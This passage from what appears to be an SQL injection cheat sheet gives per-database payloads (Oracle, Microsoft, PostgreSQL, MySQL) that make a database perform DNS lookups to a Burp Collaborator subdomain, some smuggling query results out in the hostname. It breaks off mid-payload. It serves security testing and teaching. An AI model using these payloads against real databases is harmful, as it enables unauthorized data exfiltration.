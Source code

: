     </tr>
    <tr>
        <th>
            Microsoft
        </th>
        <td>
            <code>exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'</code>
        </td>
    </tr>
    <tr>
        <th>
            PostgreSQL
        </th>
        <td>
            <code>copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'</code>
        </td>
    </tr>
    <tr>
        <th>
            MySQL
        </th>
        <td>
            <p>The following techniques work on Windows only:</p>
            <code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code><br />
            <code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code>
        </td>
    </tr>
</table>

<h2>DNS lookup with data exfiltration</h2>
<p>
    You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use <a href="/burp/documentation/desktop/tools/collaborator">Burp Collaborator</a> to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
</p>
<table>
    <tr>
        <th>
            Oracle
        </th>
        <td>
            <code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code>
        </td>
    </tr>
    <tr>
        <th>
            Microsoft
        </th>
        <td>
            <code>declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')</code>
        </td>
    </tr>
    <tr>
        <th>
            PostgreSQL
        </th>
        <td>
            <code>create OR replace function f() returns void as $$ <br />
            declare c text; <br />